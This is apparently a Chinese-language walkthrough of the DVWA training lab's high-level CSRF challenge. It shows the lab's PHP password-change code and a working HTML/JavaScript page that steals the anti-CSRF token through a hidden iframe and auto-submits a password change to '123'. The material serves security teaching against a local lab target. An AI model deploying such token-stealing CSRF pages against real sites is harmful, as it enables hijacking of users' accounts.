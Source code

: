 ```php
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```
多了Anti-CSRF token防御机制，每个请求都要带上唯一的token值才能成功提交。


#### 解题思路
- 构造恶意页面，代码如下
```html
<script type="text/javascript">
    function attack(){
    document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
    document.getElementById("transfer").submit(); 
}
</script>
<iframe src="http://127.0.0.1:9000/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;"></iframe>
<body onload="attack()">
  <form method="GET" id="transfer" action="http://127.0.0.1:9000/dvwa/vulnerabilities/csrf">
    <input type="hidden" name="password_new" value="123">
    <input type="hidden" name="password_conf" value="123">
    <input type="hidden" name="user_token" value="">
    <input type="hidden" name="Change" value="Change">
  </form>
</body>
```
这段代码就是新建跳转子页面然后向服务器发送一个请求，从而得到最新的token值然后再进行提交。

保存上面的代码到high.html并放到dvwa/vulnerabilities/csrf/目录下（能访问到就行），然后我们访问http://127.0.0.1:9000/dvwa/vulnerabilities/csrf/high.html 这个链接，会发现一闪而过一个空白页面，然后我们退出登录DVWA，再重新登录就会发现默认密码被修改成123了。
